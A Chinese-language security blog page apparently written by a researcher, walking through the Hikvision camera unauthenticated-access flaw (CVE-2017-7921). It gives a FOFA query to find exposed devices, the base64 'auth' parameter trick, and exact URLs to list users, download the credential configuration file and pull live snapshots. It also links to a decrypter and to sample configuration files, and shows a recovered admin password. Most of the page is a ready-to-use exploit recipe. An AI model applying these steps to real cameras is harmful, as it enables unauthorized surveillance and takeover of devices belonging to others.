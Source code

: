 ```yaml
---
layout: about
category: about
Researchname: Hikvision-ConfigurationFiles-decrypter
author: Bin4xin
permalink: /about/Hikvision-ConfigurationFiles-decrypter/
desc: 「二进制研究/Bin」
---
```


# Hikvision ConfigurationFiles Unauth

> *fofa： app="HIKVISION-视频监控"*
>
> *HIKVISION*监控设备管理后台存在未授权，通过构造url可绕过登录查看监控，检索所有用户和配置文件下载。

构造url主要是通过如下的`auth`参数构造生成base64加密字段，如下所示：

```bash
➜  echo admin:11 |base64
YWRtaW46MTEK
```

<h2><li>检索所有用户及其角色的列表</li></h2>
`http://{ip.addr}:{ip.port}/Security/users?auth=YWRtaW46MTEK`

返回xml信息：

```xml
<UserList version="1.0">
<User version="1.0">
<id>1</id>
<userName>admin</userName>
<priority>high</priority>
<ipAddress>0.0.0.0</ipAddress>
<macAddress>00:00:00:00:00:00</macAddress>
<userLevel>Administrator</userLevel>
</User>
</UserList>
```

---

<h2><li>下载账号密码配置文件</li> </h2>


`http://{ip.addr}:{ip.port}/System/configurationFile?auth=YWRtaW46MTEK`

```bash
➜  file configurationFile
configurationFile: PGP Secret Key -
```

如上，我们配置文件下载完成后可以看到是PGP加密文件，所以我们需要对文件进行解密才可以找到账号密码的配置信息；文件解密出的账号密码就是监控设备后台管理的账号密码信息，我们得到信息直接登录即可。解密软件用法及链接如下：

### *# Usage:*

<div class="col-lg-7">
<img align="left" src="{{site.PicturesLinks_Domain}}/images/2022/02/20/l5mtUa13gvqVHLF.png"/>
</div>

<div>

<h3> <em>Open [hikvision-decrypter.exe] on Windows platform:</em> </h3>

<li><code>Open Configuration File -> </code></li>

<li><code>Encrypted -> </code></li>

<li><code>Decrypt Data(Decrypting AES...) -> </code></li>

<li><code>(Successfully decrypted data) -> </code></li>

<li><code>Save Configuration File. </code></li>


</div>

### *# Find pass in decrypted data*

用 010-Editor程序打开decrypted data 文件. 文件内搜索admin字符串，如左图；

**Boom! Easy to find password! (admin:asdf1234)**

<span style="margin-left: 1em">* 我们通过[Usage]来获得的帐号密码登录即可，有机会会从代码角度分析一下为什么存在未授权访问</span>

### *#* 相关链接一览表

|Desc | Link |
| :----: | :----: |
---- | --- 
Download Hikvision exec |  [<i class="fa fa-link"></i> hikvision-decrypter.exe](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/Hikvision%20Unauth/hikvision-decrypter.exe){:target="_blank"} and here is: [<i class="fa fa-github"></i> Repos](https://github.com/WormChickenWizard/hikvision-decrypter){:target="_blank"}
Download configurationFile Sample | [<i class="fa fa-link"></i> configurationFile](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/Hikvision%20Unauth/configurationFile-fofa){:target="_blank"}
Download configurationFile decry-Sample	| [<i class="fa fa-link"></i> configurationFile-decry](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/Hikvision%20Unauth/DE-configurationFile-fofa){:target="_blank"}

---

<h3><li>获取监控快照</li></h3>

`http://{ip.addr}:{ip.port}/onvif-http/snapshot?auth=YWRtaW46MTEK`

当前时间下监控的快照图片

![GPEeKkcqsAFRDYO.png]({{site.PicturesLinks_Domain}}/images/2022/02/20/GPEeKkcqsAFRDYO.png)

## 参考

- [CVE-2017-7921海康威视摄像头管理后台未授权](https://www.freebuf.com/vuls/268245.html){:target="_blank"}
- [Hikvision Decrypter](https://github.com/WormChickenWizard/hikvision-decrypter){:target="_blank"}


以上。
